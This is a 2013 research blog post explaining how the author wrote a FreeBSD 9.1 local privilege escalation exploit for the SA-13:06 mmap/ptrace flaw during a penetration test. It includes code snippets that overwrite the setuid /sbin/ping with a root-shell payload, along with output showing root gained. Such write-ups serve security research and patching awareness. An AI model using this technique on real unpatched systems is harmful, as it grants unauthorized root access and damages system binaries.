 title: I feel lucky - or why I wrote a FreeBSD 1-day in one day
author: hugsy
category: research
tags: freebsd, 1day, lpe
date: 2013-06-20 00:00 +0000
modified: 2013-06-20 00:00 +0000


Sometimes life gives you eggs for free, you just need to spend some time making an omelet. That's exactly what happened to me on a recent engagement for a client: a typical PHP webapp full of holes left me with a nice stable shell access.

But at that point I was stuck: I had a limited account (`www`) on this FreeBSD 9.1 (almost) up-to-date box, and interestingly  the privilege separation was done correctly enough to prevent me from getting `root` access simply by abusing the usual suspects (weak FS permission, setuid bins, privileged scripts and the likes).

So it was with little hope I decided to take a look at the [recent advisories for FreeBSD](https://www.freebsd.org/security/advisories/) which I really like because they are well maintained. One title struck my eye immediately: [SA-13:06.mmap - Privilege escalation via `mmap`](https://www.freebsd.org/security/advisories/FreeBSD-SA-13:06.mmap.asc), published the day right before!

I decided to look into it at first with not much hope, thinking the exploit would be crazy hard to trigger and heavily deep inside FreeBSD kernel. The description was actually (on purpose?) quite generic

> Due to insufficient permission checks in the virtual memory system, a tracing process (such as a debugger) may be able to modify portions of the traced process's address space to which the traced process itself does not have write access.

But the [patch](http://security.FreeBSD.org/patches/SA-13:06/mmap.patch) gave me a better idea of the issue:

```patch
Index: sys/vm/vm_map.c
===================================================================
--- sys/vm/vm_map.c	(revision 251636)
+++ sys/vm/vm_map.c	(working copy)
@@ -3761,6 +3761,12 @@ RetryLookup:;
         vm_map_unlock_read(map);
         return (KERN_PROTECTION_FAILURE);
     }
+	if ((fault_typea & VM_PROT_COPY) != 0 &&
+	    (entry->max_protection & VM_PROT_WRITE) == 0 &&
+	    (entry->eflags & MAP_ENTRY_COW) == 0) {
+		vm_map_unlock_read(map);
+		return (KERN_PROTECTION_FAILURE);
+	}

     /*
      * If this page is not pageable, we have to get it for all possible
```

It kindda gave a good pointer of where to start: the usual rule for setuid dictates that a write access should immediately imply losing the elevated privilege. But this is where the bug was: by `mmap` a setuid binary (which any user can do), I can then choose to `ptrace` the process, and use `PT_WRITE` command to overwrite the `mmap`-ed memory, effectively overwriting the setuid binary!

<div markdown="span" class="alert-info"><i class="fa fa-info-circle">&nbsp;Note:</i> I was in a rush, so my exploit is partially destructive as I overwrite directly the setuid binary. If you choose to use it, please make a copy to be able to restore it.</div>

My exploit was in 4 parts:

1. `mmap` the target binary (here I chose `/sbin/ping`)

        :::c
        int fd = open("/sbin/ping", O_RDONLY);
        caddr_t addr = mmap(NULL, LEN, PROT_READ, MAP_SHARED, fd, 0);

2. `fork` to passe to be the `mmap`-ed address to a process I can attach to using `ptrace()`

3. in the parent process, I attach to the child process and then prepare a basic payload to substitute the original code with

        :::c
        if (ptrace(PT_ATTACH, pid, 0, 0) < 0)
        {
            perror("[-] ptrace(PT_ATTACH) failed");
            return;
        }
        [...]
        int fd = open("./sc.c", O_WRONLY|O_CREAT,  S_IRUSR | S_IWUSR | S_IRGRP | S_IWGRP | S_IROTH);
        write(fd,
            "#include <stdio.h>\n"\
            "main(){ "\
            "char* s[]={\"/bin/sh\",NULL};"\
            "setuid(0);execve(s[0],s,0); }\n",
            84);
        close(fd);
        system("gcc -o ./sc ./sc.c");

4. all done, we could now copy our payload 1 DWORD at a time using `ptrace(PT_WRITE_D)`

        :::c
        fd = open("./sc", O_RDONLY);
        while (1) {
            int a;
            int n = read(fd, &a, sizeof(int));
            if (n <= 0) break;
            ptrace(PT_WRITE_D, pid, mmap_setuid_address+i, a);
            i+=n;
        }


Done! Simply execute the target binary to get a root shell.

```shell
 $ id
 uid=1001(user) gid=1001(user) groups=1001(user)
 $ gcc -Wall ./mmap.c && ./a.out
 [+] Saved old '/sbin/ping'
 [+] Using mmap-ed area at 0x281a4000
 [+] Attached to 3404
 [+] Copied 4917 bytes of payload to '/sbin/ping'
 [+] Triggering payload
 $ id
 uid=0(root) gid=0(wheel) egid=1001(user) groups=1001(user),0(wheel)
```

By nature, this exploit is very stable and I was able to report that I had `root` access to my customer :)
I was undeniably lucky to find exactly the privilege escalation I need just exactly when I needed it (kudos to Konstantin Belousov & Alan Cox for the finding), but it also taught me that there can be a huge difference of postponing applying patches, even if for one day...

Cheers mates!

PS: for the full [quick'n dirty exploit](https://gist.github.com/hugsy/5933831)
